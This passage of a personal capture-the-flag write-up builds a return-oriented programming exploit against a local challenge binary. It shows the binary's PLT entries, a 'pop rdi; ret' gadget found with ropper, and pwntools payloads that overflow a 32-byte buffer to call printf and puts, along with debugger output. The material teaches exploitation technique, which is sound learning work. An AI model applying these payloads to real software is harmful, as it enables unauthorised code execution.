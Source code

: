 so my first self made task was printing one of the strings again!

getting all the plt offsets of functions:

```
pwndbg> plt
Section .plt 0x400540-0x4005a0:
0x400550: puts@plt
0x400560: setbuf@plt
0x400570: printf@plt
0x400580: prctl@plt
0x400590: gets@plt
```

also someone posted this link in the discord which really helped:

<https://tc.gts3.org/cs6265/2021/tut/tut06-02-advrop.html>

i also had ropper installed!

so i got the gadget to fill the registers for my printf!

```
$ ropper --file main --search "pop rdi; ret"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi; ret

[INFO] File: main
0x0000000000400803: pop rdi; ret; 
```

so my first payload was this:

```
s.send(b"A" * 32 + b"aaaabbbb" + p64(pop_rdi_gadget) + p64(0x400948) + p64(printf_plt))
```

it apparently sort of worked... but not fully

```
pwndbg> c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x00007f7787d6f474 in __printf (format=0x400948 "Are you a master of ROP?") at ./stdio-common/printf.c:28
28      ./stdio-common/printf.c: No such file or directory.
```

when trying the same with puts it just worked?!

```
s.send(b"A" * 32 + b"aaaabbbb" + p64(pop_rdi_gadget) + p64(0x400948) + p64(puts_plt))
```

```
$ python3 solve.py 
[+] Starting local process './main': pid 5328

[*] Switching to interactive mode
 $ 
Are you a master of ROP?
```
